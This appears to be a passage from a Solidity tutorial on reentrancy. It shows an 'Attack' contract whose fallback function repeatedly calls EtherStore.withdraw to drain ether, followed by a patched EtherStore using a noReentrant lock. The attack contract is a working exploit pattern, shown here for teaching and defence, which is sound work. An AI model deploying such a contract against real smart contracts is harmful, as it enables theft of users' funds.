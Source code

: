 ```solidity
contract Attack {
    EtherStore public etherStore;
    constructor(address _etherStoreAddress) public {
        etherStore = EtherStore(_etherStoreAddress);
    }
    
    fallback() external payable {
        if(address(etherStore).balance >= 1 ether) {
            etherStore.withdraw(1 ether);
        }
    }
    
    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw(1 ether);
    }
    
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

##### method 2

```solidity
pragma solidity ^0.6.10;

/*
-What is reentrancy
*/

contract EtherStore{
    mapping(address => uint) public balances;
    
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
    
    bool internal locked;
    
    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
    
    function withdraw(uint _amount) public noReentrant{
        require(balances[msg.sender] >= _amount);
        
                balances[msg.sender] -= _amount;
                
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");
        
    }
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```